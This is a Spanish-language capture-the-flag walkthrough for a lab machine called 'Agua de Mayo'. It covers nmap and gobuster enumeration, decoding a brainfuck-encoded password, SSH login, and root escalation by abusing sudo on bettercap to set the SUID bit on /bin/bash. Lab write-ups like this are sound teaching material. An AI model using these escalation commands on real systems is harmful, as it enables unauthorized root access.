 # Agua de Mayo
![image](https://github.com/user-attachments/assets/d4ee9a17-fcbe-41a2-ae97-464c3736755e)


## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
sudo nmap -sSCV -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sSCV`: Realiza un escaneo SYN, de versiones y vulnerabilidades.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.
```
![image](https://github.com/user-attachments/assets/ed50cfd3-edc0-44cd-82a7-3674d6df2be8)

En la página principal vemos la página por defecto de Apache, por lo que vamos a hacer fuzzing con **gobuster**. Aunque si miramos el código fuente de la página y bajamos hata el final nos encontramos con un comentario.

```
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
```
Es un mensaje codificado en **brainfuck** y si vamos a [dcode](https://www.dcode.fr/brainfuck-language) podremos descifraslo fácilmente.

![image](https://github.com/user-attachments/assets/1c963813-2e64-4947-a5dd-0f45f7dd3808)

Una vez tenemos una posible contraseña, miramos el resultado del fuzzing a ver si encontramos algo.

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
![image](https://github.com/user-attachments/assets/1a88b909-9812-4fad-934e-9e35d10cdd50)

Encontramos el directorio **/images** y dentro de él una imagen llamada **agua_ssh.jpg**.

![image](https://github.com/user-attachments/assets/3ffae8f6-13dc-46e5-803c-42efaec93eb3)

Después de buscar si encontramos algo dentro de la imágen, vemos que no hay nada pero que el nombre podría indicarnos un que el usuario de **ssh** sea **agua**. Lo comprobamos con la contraseña y estamos dentro de la máquina.

## Explotación.

```bash
ssh agua@172.17.0.2
```
![image](https://github.com/user-attachments/assets/6044a823-212c-427f-a4af-06b2cc4b3c32)

## Escalada de privilegios.

Comprobamos si hay algún archivo que podamos utilizar con permisos de root.
```bash
sudo -l
```
Vemos que podemos ejecutar **/usr/bin/bettercap** como **root**. Lo ejecutamos y encontramos en la ayuda que podemos ejecutar un comando.

![image](https://github.com/user-attachments/assets/dd3cf928-7197-4a20-85d2-9452b10ad972)

Aprovechamos para cambiar los permisos a la **bash** y así ejecutarla como privilegios.

```bash
! chmod u+s /bin/bash
```
Salimos, y ejecutamos el siguiente comando para optener la bash como **root**.

```bash
/bin/bash -p
```
![image](https://github.com/user-attachments/assets/e42da890-b5cf-497b-aa4c-70011c2c296e)





